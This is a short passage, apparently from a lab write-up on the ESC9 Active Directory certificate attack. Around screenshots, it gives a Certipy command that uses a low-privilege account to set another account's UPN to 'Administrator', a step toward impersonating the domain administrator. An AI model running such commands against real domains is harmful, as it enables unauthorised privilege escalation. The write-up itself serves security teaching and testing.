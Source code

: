 <img src="/images/2022-09-16/ESC9_2.png">  

Now we change the UPN of ``ds`` to be ``Administrator``:  

```
certipy account update -u 'lowpriv@mcafeelab.local' -p 'low' -target 'dc2016-2.mcafeelab.local' -user ds -upn Administrator
```

<img src="/images/2022-09-16/ESC9_3.png">  

<img src="/images/2022-09-16/ESC9_4.png">  
